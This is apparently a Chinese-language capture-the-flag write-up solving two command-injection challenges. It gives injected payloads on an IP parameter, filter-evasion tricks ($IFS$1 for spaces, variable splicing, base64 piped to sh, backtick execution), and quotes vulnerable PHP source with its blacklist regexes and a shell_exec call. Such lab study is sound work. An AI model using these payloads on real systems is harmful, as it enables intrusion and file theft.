 # [ACTF2020 新生赛]Exec 1

1. 127.0.0.1;ls

    根据返回结果可知没有过滤分号和ls
2. 127.0.0.1;cd ../../../;ls

    找到flag文件
3. 127.0.0.1;cd ../../../flag;ls

   发现没有任何目录,则flag肯定就在该目录下了
4. 127.0.0.1;cd ../../../;cat flag

    找到flag

一道简单的命令注入题,没有任何过滤

# [GXYCTF2019]Ping Ping Ping 1

## 方法一

1. 构造?ip=127.0.0.1;ls

   发现flag.php
2. ?ip=127.0.0.1;cat flag

   得到/?ip= fxck your space!,说明空格被过滤了
3. ?ip=127.0.0.1;cat$IFS$1flag.php

   得到/?ip= fxck your flag!,说明flag也被过滤了
4. ?ip=127.0.0.1;cat$IFS$1index.php    试试另外一个文件

```txt
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
die("fxck your symbol!");
} else if(preg_match("/ /", $ip)){
die("fxck your space!");
} else if(preg_match("/bash/", $ip)){
die("fxck your bash!");
} else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
die("fxck your flag!");
}
$a = shell_exec("ping -c 4 ".$ip);
echo "
";
print_r($a);
}

?>
```
发现很多符号都过滤了
所以单引号双引号绕过，反斜线绕过这些都行不通了

但仔细观察源码发现有一个变量a可以替换

5. /?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php

   得到flag

## 方法二

将cat flag.php进行base64编码

得到Y2F0IGZsYWcucGhw

再用base64-d命令来执行

虽然过滤了bash但大部分仍然可以用sh来执行

则构造echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh

## 方法三

内联执行

所谓内联，就是将反引号内命令的输出作为输入执行

构造?ip=127.0.0.1;cat$IFS$9`ls`
